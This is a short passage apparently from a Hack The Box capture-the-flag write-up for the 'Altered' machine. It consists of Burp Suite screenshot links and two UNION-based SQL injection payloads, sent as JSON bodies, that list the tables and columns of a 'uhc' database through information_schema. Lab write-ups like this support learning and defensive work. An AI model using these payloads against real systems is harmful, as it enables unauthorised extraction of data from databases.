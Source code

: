![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/burpsuite%20extract%20even%20more%20data.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/burpsuite%20extract%20all%20databases%20one%20by%20one.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/burpsuite%20extract%20all%20databases%20group_concat.png)

## extract data from uhc database
````mysql

{"id":"1000000000 union select 1,2,group_concat(table_name) from information_schema.columns where table_schema = 'uhc'-- -", "secret":true}



````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/burpsuite%20extract%20uhc%20database.png)

````mysql

{"id":"1000000000 union select 1,2,group_concat(concat('\n',table_name,':',column_name)) from information_schema.columns where table_schema = 'uhc'-- -", "secret":true}

`````
